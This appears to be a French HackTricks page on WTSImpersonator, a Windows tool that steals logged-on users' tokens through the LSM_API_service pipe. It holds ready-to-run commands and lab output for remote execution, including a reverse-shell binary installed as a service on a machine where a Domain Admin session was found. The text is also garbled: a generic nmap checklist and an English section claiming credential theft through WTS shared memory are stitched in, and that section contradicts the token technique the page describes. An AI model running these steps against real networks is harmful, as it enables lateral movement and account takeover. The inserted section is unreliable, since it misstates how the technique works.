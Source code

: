 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? Ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

WTS Impersonator abuse du pipe nommé RPC "**\\pipe\LSM_API_service**" pour énumérer les utilisateurs connectés et voler les jetons d'autres utilisateurs sans utiliser la technique normale d'**"Impersonation de jeton"**, cela permet une progression latérale facile et discrète. Cette technique a été étudiée et développée par [Omri Baso](https://www.linkedin.com/in/omri-baso/).

L'outil `WTSImpersonator` peut être trouvé sur [github](https://github.com/OmriBaso/WTSImpersonator).
```
WTSEnumerateSessionsA → WTSQuerySessionInformationA -> WTSQueryUserToken -> CreateProcessAsUserW
```
#### Module `enum`:

Énumérer les utilisateurs locaux sur la machine à partir de laquelle l'outil est exécuté.
```powershell
.\WTSImpersonator.exe -m enum
```
# Enumérer une machine à distance en utilisant une adresse IP ou un nom d'hôte.

Lors de l'énumération d'une machine à distance, vous pouvez utiliser l'adresse IP ou le nom d'hôte pour accéder à la machine cible. Voici les étapes à suivre :

1. **Identifier l'adresse IP ou le nom d'hôte** de la machine cible que vous souhaitez énumérer.

2. **Ouvrir un terminal** ou une invite de commande sur votre propre machine.

3. Utilisez une **commande de balayage réseau** pour rechercher les ports ouverts sur la machine cible. Par exemple, vous pouvez utiliser la commande `nmap` avec l'option `-p-` pour balayer tous les ports. Exemple : `nmap -p- <adresse IP>`.

4. Analysez les résultats du balayage pour **identifier les services et les ports ouverts** sur la machine cible. Cela peut vous donner des informations sur les services en cours d'exécution et les vulnérabilités potentielles.

5. **Effectuez une recherche d'informations** sur les services et les ports ouverts pour obtenir plus de détails sur les vulnérabilités connues et les exploits possibles.

6. Utilisez des **outils d'exploitation** appropriés pour tester les vulnérabilités identifiées et obtenir un accès plus approfondi à la machine cible.

Il est important de noter que l'énumération d'une machine à distance sans autorisation appropriée est illégale et peut entraîner des conséquences juridiques graves. Assurez-vous d'obtenir une autorisation légale avant de procéder à toute énumération ou test de pénétration.
```powershell  
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```
#### Module `exec` / `exec-remote`:
Les modules "exec" et "exec-remote" nécessitent tous deux d'être dans un contexte de **"Service"**.
Le module local "exec" n'a besoin que de WTSImpersonator.exe et du binaire que vous souhaitez exécuter (option -c). Cela pourrait être
un "C:\\Windows\\System32\\cmd.exe" normal et vous ouvrirez un CMD en tant qu'utilisateur souhaité, un exemple serait
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
Vous pouvez utiliser PsExec64.exe pour obtenir un contexte de service.
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```
Pour `exec-remote`, les choses sont un peu différentes. J'ai créé un service qui peut être installé à distance, tout comme `PsExec.exe`. Le service recevra un `SessionId` et un `binaire à exécuter` en tant qu'arguments, et il sera installé et exécuté à distance en fonction des autorisations appropriées. Un exemple d'exécution ressemblerait à ceci :
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m enum -s 192.168.40.129

__          _________ _____ _____                                                 _
\ \        / /__   __/ ____|_   _|                                               | |
\ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
\ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
\  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
\/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
| |
|_|
By: Omri Baso
WTSEnumerateSessions count: 1
[2] SessionId: 2 State: WTSDisconnected (4) WinstationName: ''
WTSUserName:  Administrator
WTSDomainName: LABS
WTSConnectState: 4 (WTSDisconnected)
```
comme on peut le voir ci-dessus, l'`ID de session` du compte Administrateur est `2`, nous l'utilisons donc ensuite dans la variable `id` lors de l'exécution du code à distance.
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```
#### Module `user-hunter`:

Le module de chasseur d'utilisateurs vous permettra d'énumérer plusieurs machines et, si un utilisateur donné est trouvé, il exécutera du code au nom de cet utilisateur.
Cela est utile lorsque vous recherchez des "Domain Admins" tout en ayant des droits d'administrateur local sur quelques machines.
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```
# WTS Impersonator

The WTS Impersonator technique allows an attacker to steal user credentials by impersonating a Windows Terminal Server (WTS) session.

## Description

When a user logs into a Windows Terminal Server, a session is created for that user. This session is managed by the Windows Terminal Services (WTS) service. The WTS Impersonator technique takes advantage of the fact that the WTS service uses a shared memory section to store session information, including user credentials.

By injecting malicious code into the WTS shared memory section, an attacker can intercept and steal user credentials as they are being processed by the WTS service. This allows the attacker to gain unauthorized access to the user's account and potentially escalate their privileges.

## Steps

1. Identify the target Windows Terminal Server and the user whose credentials you want to steal.

2. Use a tool like `wtsimpersonator.exe` to inject malicious code into the WTS shared memory section.

3. The malicious code should be designed to intercept and capture user credentials as they are being processed by the WTS service.

4. Once the user credentials have been captured, they can be exfiltrated to the attacker's remote server or stored locally for later use.

## Mitigation

To mitigate the risk of WTS Impersonator attacks, consider the following measures:

- Regularly update and patch the Windows Terminal Server to ensure that known vulnerabilities are addressed.

- Implement strong access controls and authentication mechanisms to prevent unauthorized access to the WTS service.

- Monitor the WTS service for any suspicious activity or unauthorized access attempts.

- Educate users about the risks of phishing attacks and the importance of not sharing their credentials with anyone.

By implementing these measures, you can significantly reduce the risk of WTS Impersonator attacks and protect user credentials from being stolen.
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m user-hunter -uh LABS/Administrator -ipl .\test.txt -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe

__          _________ _____ _____                                                 _
\ \        / /__   __/ ____|_   _|                                               | |
\ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
\ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
\  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
\/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
| |
|_|
By: Omri Baso

[+] Hunting for: LABS/Administrator On list: .\test.txt
[-] Trying: 192.168.40.131
[+] Opned WTS Handle: 192.168.40.131
[-] Trying: 192.168.40.129
[+] Opned WTS Handle: 192.168.40.129

----------------------------------------
[+] Found User: LABS/Administrator On Server: 192.168.40.129
[+] Getting Code Execution as: LABS/Administrator
[+] Trying to execute remotly
[+] Transfering file remotely from: .\WTSService.exe To: \\192.168.40.129\admin$\voli.exe
[+] Transfering file remotely from: .\SimpleReverseShellExample.exe To: \\192.168.40.129\admin$\DrkSIM.exe
[+] Successfully transfered file!
[+] Successfully transfered file!
[+] Sucessfully Transferred Both Files
[+] Will Create Service voli
[+] Create Service Success : "C:\Windows\voli.exe" 2 C:\Windows\DrkSIM.exe
[+] OpenService Success!
[+] Started Sevice Sucessfully!

[+] Deleted Service
```


